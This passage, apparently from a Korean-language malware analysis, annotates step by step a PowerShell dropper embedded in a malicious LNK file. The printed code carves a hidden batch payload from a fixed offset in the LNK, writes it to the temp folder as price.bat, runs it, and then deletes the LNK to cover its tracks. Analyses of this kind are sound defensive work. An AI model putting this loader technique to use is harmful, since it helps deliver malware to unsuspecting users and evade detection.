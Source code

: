 ```powershell

```



#### 6. lnk 파일 내부에서 price.bat 파일 추출 및 실행

```powershell
# 0x0095A239를 찾음
$lnkFile.Seek(0x0095A239,[System.IO.SeekOrigin]::Begin);

# 0x00000135 크기의 객체 생성
$batByte = New-Object byte[] 0x00000135;

# 0x00000135 크기만큼 읽음.
$lnkFile.Read($batByte, 0, 0x00000135);

# price.bat 경로를 생성
$executePath = $env:temp+'\'+'price.bat';

# $executePath 출력
Write-Host $executePath;

# $batStrPath 출력
Write-Host $batStrPath;

# $batByte를 utf8로 인코딩하여 $bastString에 저장
$bastString = [System.Text.Encoding]::UTF8.GetString($batByte);

# $executePath에 $bastString을 저장
$bastString | Out-File -FilePath $executePath -Encoding ascii;

# $executePath 실행
& $executePath;
```



#### 7. 객체 정리 및 lnk 파일 삭제 후 종료

```powershell
# lnkFile 객체 닫기
$lnkFile.Close();

# $lnkPath를 삭제
remove-item -path $lnkPath -force;

# 종료
"&& exit
```



### ▪ <u>price.bat 분석</u>
